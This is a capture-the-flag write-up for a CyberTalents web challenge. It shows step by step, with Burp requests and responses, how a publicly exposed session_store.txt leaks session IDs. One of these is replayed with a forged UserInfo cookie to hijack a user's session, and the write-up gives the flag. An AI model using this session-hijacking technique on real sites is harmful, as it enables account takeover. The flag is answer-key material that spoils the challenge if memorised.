


# Solve The Restricted Sessions
### https://cybertalents.com/challenges/web/the-restricted-sessions




Review The Source code 

```
if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
```

#### Analyize request with burp
```
GET / HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

#### Inject PHPSESSID in cookie of the request

```
GET / HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
cookie: PHPSESSID=test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

#### Responce 
```
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Mon, 18 Mar 2024 12:14:14 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 43

Session not found in data/session_store.txt
```
#### Navigate to `data/session_store.txt`


We found Sotred sessions IDs 
```
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```

#### Try Post request with Sotred sessions IDs  
```
POST /getcurrentuserinfo.php HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 36

PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23
```

#### Responce 
```
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Mon, 18 Mar 2024 12:29:08 GMT
Content-Type: application/json
Connection: close
Set-Cookie: PHPSESSID=68rn3qsd4ojvajq4a66dm8gj3s; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 44

{
    "email": "john@example.com",
    "name": "john",
    "session_id": "iuqwhe23eh23kej2hd2u3h2k23"
}
```
#### Login with session_id and name 

```
GET / HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
cookie:PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23; UserInfo=john 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Flag is `sessionareawesomebutifitsecure` 

>Find More on ==> github.com/MedhatHassan 